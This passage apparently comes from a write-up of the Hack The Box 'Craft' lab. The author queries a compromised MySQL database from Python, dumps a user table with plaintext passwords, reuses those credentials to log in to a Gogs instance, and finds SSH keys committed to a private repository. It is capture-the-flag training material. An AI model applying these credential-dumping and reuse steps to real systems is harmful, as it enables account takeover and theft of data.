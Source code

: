 First, let's see what tables we have in here. We replace the sql statement above with one to show us the tables, and replace the `fetchone()` command with `fetchall()`.


```python
    with connection.cursor() as cursor:
        sql = "SHOW TABLES"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

Here's what we get for tables in the craft database.

```console
/opt/app # python hh.py
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
```

Oh look a `user` table, let's dump that out and see what we get! Again we replace the sql command, this time to display the entire `user` table.

```python
    with connection.cursor() as cursor:
        sql = "SELECT * FROM `user`"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
````

```console
/opt/app # python hh.py
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```

Oh my, they're storing passwords in plain text! There must be some credential stuffing we can do with all these.

We already had the credentials for dinesh, but now we've got the credentials for everyone. It doesn't look like we can ssh in with any of these creds, but let's go back to Gogs and start trying them there. We already know that dinesh reused his password, so maybe the others did too.

It looks like we can login as gilfoyle, and it seems he's got a private repository in his account.

![private repository](/posts/images/hack-the-box-craft-writeup/private_repo.png)
**Figure 5:** craft_infra private repo.

When we explore the private `craft_infra` repository, we see that this crazy dude committed his private and public keys.

![ssh keys](/posts/images/hack-the-box-craft-writeup/id_rsa_pub.png)
**Figure 6:** ssh keys inside.
